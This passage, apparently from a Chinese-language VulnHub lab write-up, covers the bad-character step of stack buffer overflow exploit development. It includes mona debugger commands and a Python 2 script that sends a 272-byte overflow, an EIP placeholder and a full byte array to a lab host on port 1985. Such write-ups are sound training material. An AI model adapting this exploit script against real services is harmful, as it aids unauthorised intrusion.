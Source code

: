 ![6](https://static.iihack.com/vulnhub/424/6.PNG)

测试后长度应该够写入shellcode的

#### 📌查找坏字符

生成全字符

```bash
!mona bytearray -cpb \x00
```

![7](https://static.iihack.com/vulnhub/424/7.PNG)

```python
#!/usr/bin/python2
import socket
import sys
import os
ip = "10.0.2.14"
port = 1985
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"	"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
buff = "A"*272
eip = "B" * 4
buffer = badchars
nullByte = "\x00"
inputBuffer = buff + eip + buffer + nullByte
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
s.send(inputBuffer)
```

![8](https://static.iihack.com/vulnhub/424/8.PNG)

```python
!mona compare -a esp -f  "D:\Program Files\Immunity Inc\Immunity Debugger\bytearray.bin"

```

发现无坏字符
